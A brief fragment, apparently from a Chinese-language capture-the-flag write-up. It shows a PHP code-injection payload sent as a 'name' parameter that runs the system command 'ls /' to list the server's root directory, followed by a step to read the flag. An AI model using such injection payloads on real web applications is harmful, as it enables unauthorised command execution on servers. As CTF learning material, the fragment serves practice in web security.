 查看目录

```
name=<?php system("ls /");?>
```

![image-20240125152146052](image/image-20240125152146052.png)

读取flag
